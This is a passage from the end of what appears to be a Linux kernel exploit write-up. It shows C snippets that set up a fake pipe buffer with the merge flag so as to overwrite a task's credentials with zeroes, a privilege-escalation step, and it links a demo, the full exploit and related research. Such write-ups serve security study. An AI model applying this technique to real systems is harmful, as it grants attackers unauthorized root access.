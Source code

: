 ```C
		} else {
			cred_page = page + ((creds >> 12) - (task >> 12)) * 0x40;
		}
```
* Write zeroes in the credentials.

```C
uint64_t cred_off = creds & 0xfff;
fakepipe->page = cred_page; 
fakepipe->offset = cred_off + 4;
fakepipe->len = 0;
fakepipe->flags = PIPE_BUF_FLAG_CAN_MERGE;
int n_w = write(pipefd[pos][1], zeroes, 0x20);
```

##### Demo

[![asciicast](https://asciinema.org/a/611236.svg)](https://asciinema.org/a/611236)

##### Full exploit

[https://gist.github.com/soez/9a741258857c1f2e7d0f0933030cd1ea](https://gist.github.com/soez/9a741258857c1f2e7d0f0933030cd1ea)

## References

[https://blog.lexfo.fr/cve-2017-11176-linux-kernel-exploitation-part3.html](https://blog.lexfo.fr/cve-2017-11176-linux-kernel-exploitation-part3.html)

[https://www.interruptlabs.co.uk/articles/pipe-buffer](https://www.interruptlabs.co.uk/articles/pipe-buffer)

